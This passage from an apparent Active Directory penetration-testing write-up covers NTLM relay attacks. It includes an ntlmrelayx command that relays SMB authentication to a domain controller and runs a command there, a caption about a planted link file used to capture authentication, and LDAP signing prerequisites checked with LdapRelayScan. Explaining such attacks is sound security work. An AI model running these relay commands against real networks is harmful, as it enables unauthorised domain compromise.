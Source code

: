```sh
sudo python3 ntlmrelayx.py -smb2support -t smb://dc2.kawakatz.local -c whoami
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/37.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">Deployed link file</div>
</div>
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/38.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">NTLM relay over SMB to SMB</div>
</div>

## NTLM Relay to LDAP/LDAPS
#### Prerequisites
LDAP signing or LDAP channel binding must not be enforced to perform the relay attack. Historically this was the default. However, since Windows Server 2025, LDAP signing is enforced by default and channel binding is enabled in "When supported" mode. We can check these settings with [LdapRelayScan](https://github.com/zyn3rgy/LdapRelayScan). [This patch](https://github.com/zyn3rgy/LdapRelayScan/pull/27) may be required to support LDAPS. Additionally, some other complicated conditions must also be met as described below.
```sh
python3 LdapRelayScan.py -method BOTH -dc-ip <dc ip> -u coward -p 'P@ssw0rd'
```
<div style="text-align: center; margin: 20px 0;">
  <img src="/assets/img/20251029/31.png" width="800" style="border: 1px solid black;" alt=""/>
  <div style="font-style: italic; color: #666; margin-top: 0px;">LDAP signing and LDAP channel binding are not enforced</div>
</div>
